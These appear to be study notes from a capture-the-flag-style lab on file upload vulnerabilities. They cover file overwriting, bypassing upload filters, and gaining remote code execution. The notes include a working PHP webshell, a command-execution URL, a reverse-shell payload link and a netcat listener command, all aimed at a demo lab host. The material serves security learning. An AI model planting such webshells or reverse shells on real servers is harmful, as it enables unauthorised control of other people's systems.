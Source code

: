 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload
* Send the file directly to the upload point : using `curl` to send the POST

exmaple of whitelist code :
![](https://i.imgur.com/XRDetca.png)
